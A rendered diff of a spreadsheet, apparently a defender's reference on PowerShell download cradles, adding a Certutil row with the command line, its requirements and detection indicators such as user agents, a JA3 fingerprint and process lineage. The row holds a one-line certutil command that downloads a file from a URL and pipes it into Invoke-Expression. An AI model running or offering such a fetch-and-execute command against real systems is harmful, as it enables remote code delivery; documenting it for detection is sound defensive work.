

Before and after one commit to mgreen27/mgreen27.github.io, an Excel workbook: other/DownloadCradle/DownloadCradle.xlsx, sheet Certutil, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/other/DownloadCradle/DownloadCradle.xlsx (sheet Certutil)
+++ b/other/DownloadCradle/DownloadCradle.xlsx (sheet Certutil)
+column B, rows 1-6: Windows 10 Office 2016 Powershell 5.1.16299.248 | Certutil.exe ↵ $NULL=certutil /urlcache /f $Url[0] $Outfile; GC $OutFile | IEX ↵ Powershell 2+ ↵ Disk-based - Downloads to specified file or IE local cache ↵ Works in CLM (Constrained Language Mode) | GET: CertUtil URL Agent ↵ GET: Microsoft-CryptoAPI/* | JA3_footprint: 771,49196-49195-49200-49199-159-158-49188-49187-49192-49191-49162-49161-49172-49171-157-156-61-60-53-47-10,0-5-10-11-13-35-23-65281,29-23-24,0 ↵ JA3_hash: ce5f3254611a8c095a3d821d44539877 | certutil.exe | Child: Powershell.exe ↵ Parent: Powershell.exe ↵ Child: Certutil.exe
```
Also changed, not shown: 4 removed rows and 1 edited cell elsewhere in this sheet, sheet MsXml COM, sheet WebClient, sheet WinHttp COM, sheet Excel COM, sheet regsvr32, sheet Word COM, 12 more sheets, 1 other file.
